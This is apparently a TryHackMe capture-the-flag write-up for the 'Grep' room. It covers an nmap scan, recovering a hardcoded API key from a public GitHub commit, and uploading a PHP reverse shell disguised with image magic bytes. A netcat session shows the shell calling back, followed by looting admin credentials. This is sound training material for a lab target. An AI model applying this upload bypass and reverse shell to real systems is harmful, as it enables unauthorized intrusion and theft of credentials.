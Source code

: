 # THM - Grep

#### Ip: 10.10.46.254
#### Name: Grep
#### Difficulty: Easy

----------------------------------------------------------------------

grep.png

```text
A challenge that tests your reconnaissance and OSINT skills.

Welcome to the OSINT challenge, part of TryHackMe’s Red Teaming Path. In this task, you will be an ethical hacker aiming to exploit a newly developed web application.

SuperSecure Corp, a fast-paced startup, is currently creating a blogging platform inviting security professionals to assess its security. The challenge involves using OSINT techniques to gather information from publicly accessible sources and exploit potential vulnerabilities in the web application.

Start by deploying the machine; Click on the Start Machine button in the upper-right-hand corner of this task to deploy the virtual machine for this room.

Your goal is to identify and exploit vulnerabilities in the application using a combination of recon and OSINT skills. As you progress, you’ll look for weak points in the app, find sensitive data, and attempt to gain unauthorized access. You will leverage the skills and knowledge acquired through the Red Team Pathway to devise and execute your attack strategies.
```

Lets scan the target using Nmap. Here I will use the `-p-` falg to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ sudo nmap -p-  --min-rate 10000 10.10.46.254 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 11:00 CDT
Nmap scan report for 10.10.46.254
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 385bafb4588f5622751331671f85fc2c (RSA)
|   256 489529399f1327e14d415ac237359588 (ECDSA)
|_  256 2766c38bc7c95633f78e2e52541ebe65 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp   open  ssl/http Apache httpd 2.4.41
| ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2023-06-14T13:03:09
|_Not valid after:  2024-06-13T13:03:09
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
51337/tcp open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: Host: ip-10-10-46-254.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Lets add grep.thm to our `/etc/hosts` folder. 

We can now access the site on port 443:

searchme.png

Trying to register a new user we get an error message.

expired.png

Heading over to GitHub, if we search `SearchME language:PHP ` we find an interesting repo:
https://github.com/supersecuredeveloper/searchmecms/blob/main/api/upload.php

progress.png

# Question 1

```text
What is the API key that allows a user to register on the website?
```

If we take a look at the commit history in the API > register.php file, we find the initial commit contained the API key hardocded:

api_key.png

# Question 2

```text
What is the first flag?
```

Armed with this API key I can capture the registration in Burp, and simply update the api-key field.

burp.png

I can now logon as my created user and grab the first flag:

flag1.png

# Question 3

```text
What is the email of the "admin" user?
```

Back in the GitHub repo we also find code for `/upload.php` and the code shows the file upload only accepts images with certain magic bytes, and also provides us the upload path.

upload_code.png

Lets grab a copy of PentestMonkey's php-reverse-shell.php code and make a couple of updates. 

First we'll need to update our IP and the port we'll be listening on:

php.png

The we can head over to cyberchef and add the magic bytes listed in the GitHub code to the hex:

cyber.png

From here we can upload our file:

worked.png

Now we can set up a netcat listener, navigate to http://grep.thm/api/uploads, select our reverse shell file, and trigger the shell:

```text
┌──(ryan㉿kali)-[~/THM/Grep]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.217.227] 43686
Linux ip-10-10-217-227 5.15.0-1038-aws #43~20.04.1-Ubuntu SMP Fri Jun 2 17:10:57 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:59:48 up 6 min,  0 users,  load average: 0.18, 0.85, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-217-227:/$ 
```

Browsing around the target we find a file called users.sql with the administrator's email:

email.png

# Question 4

```text
What is the host name of the web application that allows a user to check an email for a possible password leak?
```
Browsing around the box more, the question seems to indicate we're looking for another domain in use. Running `cat /etc/hosts` we can see what else is in use by this IP:

leak.png

# Question 5

```text
What is the password of the "admin" user?
```

After adding the above to our own `/etc/hosts` file we can navigate to the site (after trying the different open ports revealed in our Nmap scans) and find the admin's password:

password.png

Thanks for following along!

-Ryan 

-------------------------------------------------------